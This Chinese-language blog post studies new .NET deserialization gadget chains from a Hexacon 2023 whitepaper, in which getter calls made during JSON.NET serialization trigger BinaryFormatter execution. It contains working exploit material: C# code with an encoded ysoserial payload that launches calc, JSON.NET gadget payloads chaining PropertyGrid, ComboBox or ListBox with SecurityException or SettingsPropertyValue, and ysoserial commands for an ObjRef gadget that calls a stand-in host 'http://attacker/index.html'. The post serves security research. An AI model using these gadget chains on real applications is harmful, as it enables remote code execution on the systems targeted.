









# dotnet 反序列化新链学习

[Y4er](https://y4er.com/ "Author")  收录于  类别 [代码审计](https://y4er.com/categories/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/)

 2023-10-23  2023-10-23  约 1964 字  预计阅读 4 分钟 

@chudyPB 在 Hexacon 2023 会议上发布了他的 dotnet 反序列化的研究白皮书，一个长达 124 页的 pdf，这是我看过最强的一篇关于 dotnet 序列化漏洞的文章。

chudyPB 从 SolarWinds 的 json.net 反序列化出发，从反序列化到黑名单绕过，其中黑名单绕过用到了多个 gadget，其中有 SolarWinds 代码库中的，也有三方库中的。通过不断的黑名单绕过，展示了 SolarWinds 的多个历史漏洞。

然后展示了 Delta Electronics InfraSuite Device Master 中 MessagePack 的反序列化漏洞，针对该产品的设计架构，然后引出一个更大的利用面，即反序列化的恶意对象如果被再次序列化也会触发某些恶意操作。

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/cd0c4c87-4c46-5baa-18a3-80c09f65320f.png "image.png")

对我而言这是一个新的利用面：不安全的序列化（Insecure Serialization），发生在序列化阶段。

接着作者对 Insecure Serialization 展示了几个 gadget，然后由于序列化阶段调用的是 getter，所以作者又找了几个 getter call 的 gadget，然后串起来成为新的反序列化 gadget。接下来我将主要对这部分进行学习。

# [](#%e4%b8%8d%e5%ae%89%e5%85%a8%e7%9a%84%e5%ba%8f%e5%88%97%e5%8c%96)\# 不安全的序列化

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/f869d6ec-4f83-e14e-546a-017c7a839c48.png "image.png")

## [](#settingspropertyvalue)1 SettingsPropertyValue

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/ef895853-17fe-6559-261a-d9ae808704df.png "image.png")

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/02c036a4-f161-abb1-82d4-b6d1245b7f6d.png "image.png")

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/fd59e16d-3c14-8a8c-90ba-3f170f5a4011.png "image.png")

根据 serializeAs 进行`binaryformatter.deserialize()`，参数都是可控的。

写出对应代码测试一下

|     |     |
| --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>``` | ```csharp<br>using Newtonsoft.Json;<br>using System.Configuration;<br><br>namespace ConsoleApp2<br>{<br>    internal class Program<br>    {<br>        static void Main(string[] args)<br>        {<br>            SettingsProperty settingsProperty = new SettingsProperty("aa");<br>            settingsProperty.SerializeAs = SettingsSerializeAs.Binary;<br>            SettingsPropertyValue settingsPropertyValue = new SettingsPropertyValue(settingsProperty);<br>            settingsPropertyValue.Deserialized = false;<br>            // ysoserial.exe -c calc -g TextFormattingRunProperties -f binaryformatter<br>            settingsPropertyValue.SerializedValue = "AAEAAAD/////AQAAAAAAAAAMAgAAAF5NaWNyb3NvZnQuUG93ZXJTaGVsbC5FZGl0b3IsIFZlcnNpb249My4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1BQEAAABCTWljcm9zb2Z0LlZpc3VhbFN0dWRpby5UZXh0LkZvcm1hdHRpbmcuVGV4dEZvcm1hdHRpbmdSdW5Qcm9wZXJ0aWVzAQAAAA9Gb3JlZ3JvdW5kQnJ1c2gBAgAAAAYDAAAAswU8P3htbCB2ZXJzaW9uPSIxLjAiIGVuY29kaW5nPSJ1dGYtMTYiPz4NCjxPYmplY3REYXRhUHJvdmlkZXIgTWV0aG9kTmFtZT0iU3RhcnQiIElzSW5pdGlhbExvYWRFbmFibGVkPSJGYWxzZSIgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1sL3ByZXNlbnRhdGlvbiIgeG1sbnM6c2Q9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fzc2VtYmx5PVN5c3RlbSIgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwiPg0KICA8T2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KICAgIDxzZDpQcm9jZXNzPg0KICAgICAgPHNkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgICAgICA8c2Q6UHJvY2Vzc1N0YXJ0SW5mbyBBcmd1bWVudHM9Ii9jIGNhbGMiIFN0YW5kYXJkRXJyb3JFbmNvZGluZz0ie3g6TnVsbH0iIFN0YW5kYXJkT3V0cHV0RW5jb2Rpbmc9Int4Ok51bGx9IiBVc2VyTmFtZT0iIiBQYXNzd29yZD0ie3g6TnVsbH0iIERvbWFpbj0iIiBMb2FkVXNlclByb2ZpbGU9IkZhbHNlIiBGaWxlTmFtZT0iY21kIiAvPg0KICAgICAgPC9zZDpQcm9jZXNzLlN0YXJ0SW5mbz4NCiAgICA8L3NkOlByb2Nlc3M+DQogIDwvT2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KPC9PYmplY3REYXRhUHJvdmlkZXI+Cw==";<br>            JsonConvert.SerializeObject(settingsPropertyValue, new JsonSerializerSettings() { TypeNameHandling = TypeNameHandling.All });<br>        }<br>    }<br>}<br>``` |

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/d6b05262-d404-b3e0-907f-6ac0e06c65dd.png "image.png")

可以看到通过序列化调用 getter 时弹出了计算器

## [](#securityexception)2 SecurityException

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/e105c3f0-8e1f-80fd-d6cd-14bf9ce29e85.png "image.png")

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/3cbbbd2d-3784-9367-eac2-e05f94d6c514.png "image.png")

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/fad67791-c345-c15e-9dca-4462c09f34d1.png "image.png")

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/83e01364-07db-d4b0-adee-8eee4ffb01d1.png "image.png")

朴实无华，但是在实际写的时候发现了问题。直接调用 getter 确实可以，但是通过 json.net 不行，究其原因发现 json.net 在序列化时，如果重写了序列化函数 GetObjectData，则会调用该函数来序列化，binaryformatter 也是一样。

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/10c95f78-6604-7e84-b853-3e4edc9d25f9.png "image.png")

所以不会触发 getter。作者也写了限制

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/5ed5cc82-cff3-621f-ae71-95547b643d78.png "image.png")

不过无所谓，可以和后面的任意 getter call 串起来。

## [](#compilerresults)3 CompilerResults

dll 加载，略

# [](#%e4%bb%bb%e6%84%8fgetter-call)\# 任意 getter call

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/1eb64d3f-5fa3-ab55-5e45-8bcc3777a7d3.png "image.png")

## [](#propertygrid)1 PropertyGrid

他的 SelectedObjects setter 中可以调用 obj 的所有 getter

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```json<br>{<br>    "$type": "System.Windows.Forms.PropertyGrid, System.Windows.Forms, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",<br>    "SelectedObjects": [<br>        {<br>            "your": "object"<br>        }<br>    ]<br>}<br>``` |

东西太多 直接看堆栈

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```fallback<br>System.Object System.ComponentModel.PropertyDescriptor::GetValue(System.Object)<br>System.Windows.Forms.PropertyGridInternal.GridEntry[]<br>System.Windows.Forms.PropertyGridInternal.GridEntry::GetPropEntries(System.Windows.Forms.PropertyGridInternal.GridEntry,System.Object,System.Type)<br>System.Boolean System.Windows.Forms.PropertyGridInternal.GridEntry::CreateChildren(System.Boolean)<br>System.Void System.Windows.Forms.PropertyGridInternal.GridEntry::Refresh()<br>System.Void System.Windows.Forms.PropertyGrid::UpdateSelection()<br>System.Void System.Windows.Forms.PropertyGrid::RefreshProperties(System.Boolean)<br>System.Void System.Windows.Forms.PropertyGrid::Refresh(System.Boolean)<br>System.Void System.Windows.Forms.PropertyGrid::set_SelectedObjects(System.Object[])<br>``` |

循环遍历 SelectedObjects，然后调用 object 的所有 getter

## [](#combobox)2 ComboBox

|     |     |
| --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```json<br>{<br>    "$type": "System.Windows.Forms.ComboBox, System.Windows.Forms, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",<br>    "Items": [<br>        {<br>            "your": "obj"<br>        }<br>    ],<br>    "DisplayMember": "obj的成员名称",<br>    "Text": "whatever"<br>}<br>``` |

## [](#listbox)3 ListBox

和 ComboBox 大同小异

|     |     |
| --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```json<br>{<br>    "$type": "System.Windows.Forms.ListBox, System.Windows.Forms, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",<br>    "Items": [<br>        {<br>            "your": "object"<br>        }<br>    ],<br>    "DisplayMember": "MaliciousMember",<br>    "Text": "whatever"<br>}<br>``` |

## [](#checkedlistbox)4 CheckedListBox

和上面一样，不写了

# [](#%e4%b8%b2%e8%b5%b7%e6%9d%a5)\# 串起来

-   PropertyGrid+SecurityException
-   PropertyGrid+SettingsPropertyValue
-   ListBox+SecurityException
-   ListBox+SettingsPropertyValue
-   ComboBox+SecurityException
-   ComboBox+SettingsPropertyValue
-   CheckedListBox+SecurityException
-   CheckedListBox+SettingsPropertyValue

写几个简单的

## [](#propertygrid--securityexception)1 PropertyGrid + SecurityException

|     |     |
| --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>``` | ```json<br>{<br>    "$type": "System.Windows.Forms.PropertyGrid, System.Windows.Forms, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",<br>    "SelectedObjects": [<br>        {<br>            "$type": "System.Security.SecurityException",<br>            "ClassName": "System.Security.SecurityException",<br>            "Message": "Security error.",<br>            "Data": null,<br>            "InnerException": null,<br>            "HelpURL": null,<br>            "StackTraceString": null,<br>            "RemoteStackTraceString": null,<br>            "RemoteStackIndex": 0,<br>            "ExceptionMethod": null,<br>            "HResult": -2146233078,<br>            "Source": null,<br>            "WatsonBuckets": null,<br>            "Action": 0,<br>            "FirstPermissionThatFailed": null,<br>            "Demanded": null,<br>            "GrantedSet": null,<br>            "RefusedSet": null,<br>            "Denied": null,<br>            "PermitOnly": null,<br>            "Assembly": null,<br>            "Method": "base64-encoded-binaryformatter-gadget",<br>            "Method_String": null,<br>            "Zone": 0,<br>            "Url": null<br>        }<br>    ]<br>}<br>``` |

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/b7b49ddd-d361-403a-938a-1b8491861c78.png "image.png")

json.net 对其进行处理时，会先把里层的 SecurityException 对象反序列化出来，然后把 SecurityException 对象传递给 SelectedObjects 的 setter，这个 setter 可以调用 SecurityException 对象的 getter，当执行到 get\_Method 时就触发了 BinaryFormatter rce。

由此，从 setter->getter->rce 的链串起来了。

## [](#comboboxsettingspropertyvalue)2 ComboBox+SettingsPropertyValue

|     |     |
| --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```json<br>{<br>    "$type": "System.Windows.Forms.ComboBox, System.Windows.Forms, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",<br>    "Items": [<br>        {<br>            "$type": "System.Configuration.SettingsPropertyValue, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",<br>            "Name": "test",<br>            "IsDirty": false,<br>            "SerializedValue": {<br>                "$type": "System.Byte[], mscorlib",<br>                "$value": "base64-encoded-binaryformatter-gadget"<br>            },<br>            "Deserialized": false<br>        }<br>    ],<br>    "DisplayMember": "PropertyValue",<br>    "Text": "whatever"<br>}<br>``` |

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/0e70aa8c-c5e0-9483-ed83-f9c2196e5f4b.png "image.png")

同样 setter->getter->rce

# [](#%e5%85%b6%e4%bb%96gadget)\# 其他 gadget

## [](#objref)1 ObjRef

今天才看到 ysoserial.net 新增了很多 gadget，其中有一条类似于 java 中的 jrmp client，找了找，原始的利用文章在这， [https://code-white.com/blog/2022-01-dotnet-remoting-revisited/](https://code-white.com/blog/2022-01-dotnet-remoting-revisited/)

利用也很简单

|     |     |
| --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```cmd<br># generate a SOAP payload for popping MSPaint<br>ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -o raw -c MSPaint.exe  > MSPaint.soap<br><br># start server to deliver the payload on all interfaces<br>RogueRemotingServer.exe --wrapSoapPayload http://0.0.0.0/index.html MSPaint.soap<br><br># test the ObjRef gadget with the target http://attacker/index.html<br>ysoserial.exe -f BinaryFormatter -g ObjRef -o raw -c http://attacker/index.html -t<br>``` |

通过 Remoting 来进行 soap 反序列化，其实也能用来做 dnslog。

## [](#ssrf-picturebox)2 SSRF PictureBox

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/f1614740-0ed2-eb77-c099-648899d3c5ba.png "image.png")

[](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/534d6c7f-3f46-b003-4c7a-29fd30ee1f59.png "image.png")

比较可惜的是 PictureBox 没继承 Serializable 接口，不能被 BinaryFormatter 这种原生 formatter 序列化。

## [](#dotnet5)3 dotnet5

白皮书最后提到了 dotnet5 的 payload，我觉得都不太好用，需要启用 wpf，或者需要 PresentationFramework.dll，而且都是 dll 加载，不过也算是新的 gadget 了，记一下。

1.  ObjectDataProvider
2.  BaseActivationFactory
3.  CompilerResults

# [](#%e6%80%bb%e7%bb%93)\# 总结

看我文章不如看原 pdf。

文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。


*如果你觉得这篇文章对你有所帮助，欢迎赞赏或关注微信公众号～*


更新于 2023-10-23

 [dotnet](https://y4er.com/tags/dotnet/)

[返回](javascript:) | [主页](https://y4er.com/)

[devtunnel 微软的隧道工具](https://y4er.com/posts/devtunnel-the-tunneling-tool-of-microsoft/ "devtunnel 微软的隧道工具") [dnlib 使用](https://y4er.com/posts/dnlib-usage/ "dnlib使用")

# 0 Comments *\- powered by [utteranc.es](https://utteranc.es/)*


Write Preview

[↓↓↓](https://guides.github.com/features/mastering-markdown/)  
  
Styling with Markdown is supported  
  
[↑↑↑](https://guides.github.com/features/mastering-markdown/)

[↓↓↓](https://api.utteranc.es/authorize?redirect_uri=https%3A%2F%2Fy4er.com%2Fposts%2Fdotnet-new-gadget%2F)  
  
Sign in with GitHub  
  
[↑↑↑](https://api.utteranc.es/authorize?redirect_uri=https%3A%2F%2Fy4er.com%2Fposts%2Fdotnet-new-gadget%2F)
